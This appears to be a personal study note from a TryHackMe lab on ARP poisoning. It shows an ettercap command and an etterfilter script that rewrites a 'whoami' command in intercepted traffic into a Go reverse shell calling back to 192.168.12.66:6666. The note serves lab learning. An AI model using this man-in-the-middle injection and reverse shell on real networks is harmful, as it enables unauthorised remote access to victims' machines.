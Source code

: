 # ARP Poisoning

ARP Poisoning attack - consider reviewing [[MITM-Attacks]]

Perform packet manipulation of redirected packets from a target machine 


[etterfilter man page](https://linux.die.net/man/8/etterfilter) *"The etterfilter utility is used to compile source filter files into binary filter files that can be interpreted by the JIT interpreter in the [ettercap](https://linux.die.net/man/8/ettercap)(8) filter engine. You have to compile your filter scripts in order to use them in ettercap. All syntax/parse errors will be checked at compile time, so you will be sure to produce a correct binary filter for ettercap."*
```bash
# Apply filters 
# etterfilter.ef are compiled from etterfilter source filter files .ecf
# Compile etterfilter source filter file
etterfilter whoami.ecf -o whoami.ef
# Using etterfilters with -F 
# ettercap <>  -F whoami.ef
# Use the filter in a ARP poisoning attack
ettercap -T -i eth1 -M arp -F whoami.ef
```

In the [THM L2 MAC Flooding and ARP Spoofing Room](https://tryhackme.com/room/layer2) a pretend user Alice sends `whoami` over the wire which we are finding and replacing with a payload. This room reduces complexity assuming that there are no detection mechanisms.
```c
if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami") ) {
	log(DATA.data, "/root/ettercap.log");
	replace("whoami", "echo 'package main;import\"os/exec\";import\"net\";func main(){c,_:=net.Dial(\"tcp\",\"192.168.12.66:6666\");cmd:=exec.Command(\"/bin/sh\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go &" );       
	msg("###### ETTERFILTER: substituted 'whoami' with reverse shell. ######\n");   
}
```


## References

[etterfilter man page](https://linux.die.net/man/8/etterfilter)
[THM L2 MAC Flooding and ARP Spoofing Room](https://tryhackme.com/room/layer2)
